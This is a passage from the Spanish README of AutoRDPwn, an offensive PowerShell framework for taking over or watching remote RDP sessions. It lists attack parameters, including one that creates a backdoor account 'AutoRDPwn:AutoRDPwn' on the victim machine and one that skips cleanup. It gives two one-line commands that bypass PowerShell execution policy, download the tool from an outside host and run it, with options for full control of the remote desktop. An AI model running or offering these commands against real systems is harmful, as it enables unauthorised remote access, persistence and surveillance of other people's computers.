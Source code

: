 Al utilizarse de forma remota en una shell inversa, es necesario utilizar los siguientes parámetros:

| Parámetro               | Descripción                                                                                  | 
| :---------------------- | :------------------------------------------------------------------------------------------- | 
| **-admin / -noadmin**   | Dependiendo de los permisos de los que dispongamos, utilizaremos una u otra                  |
| **-nogui**              | Esto evitará cargar el menú y algunos colores, garantizado su funcionalidad                  | 
| **-lang**               | Elegiremos nuestro idioma (English, Spanish, French, German, Italian, Russian o Portuguese)  |
| **-option**             | Al igual que con el menú, podremos elegir de que forma lanzar el ataque                      |
| **-shadow**             | Decidiremos si queremos ver o controlar el equipo remoto                                     |
| **-createuser**         | Este parámetro es opcional, creará el usuario AutoRDPwn:AutoRDPwn en el equipo víctima       |
| **-noclean**            | Deshabilita el proceso de deshacer todos los cambios en el equipo víctima                    |

**Ejecución local en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Ejemplo de ejecución remota en una línea:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang Spanish -option 4 -shadow control -createuser"
```


**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Capturas de pantalla
![AutoRDPwn1_es](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn1_es.PNG)
![AutoRDPwn2_es](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn2_es.PNG)


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
Este framework ha sido creado y diseñado desde cero por Joel Gámez Molina // @JoelGMSec

Algunos módulos utilizan código, scripts y herramientas de terceros, particularmente:

• Chachi-Enumerator de **Luis Vacas** -> https://github.com/Hackplayers/PsCabesha-tools

• Invoke-Phant0m de **Halil Dalabasmaz** -> https://github.com/hlldz/Invoke-Phant0m

